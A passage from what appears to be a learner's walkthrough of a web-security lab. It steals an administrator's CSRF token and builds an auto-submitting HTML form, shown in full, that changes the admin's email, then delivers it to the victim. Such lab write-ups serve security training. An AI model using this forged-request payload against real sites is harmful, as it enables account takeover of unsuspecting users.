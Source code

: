So we get the csrf token for user admin for this 

Now we change cache busting again and store and deliver it to victim again

And in repeater  send the below request in repeater 

So this in 20 to 30 second

<img src="images/image89.jpg" alt="third" width="500">

We can see a csrf token of administrator accound is present

**Step8:**

Now we have to change the email for these first we change our email and send the //my-account/change-email to repeater

Replace the csrf with with csrf of above reponce and change email

<img src="images/image90.jpg" alt="third" width="500">

Now right click -> entension-> csrf poc generator and generate a proof of concept for this request

It look like

<img src="images/image91.jpg" alt="third" width="500">

If you have no crst you can juy copy the below code and replace csrf value with your 
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="i&#95;am&#95;admin&#64;admin&#46;com" />
      <input type="hidden" name="csrf" value="cXVxuNNK9lQniEV9MHoBXnH5WN7byec5" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Copy this and send to victim through exploit server

<img src="images/image92.jpg" alt="third" width="500">

And store and deliver it to victim. And the lab is solved


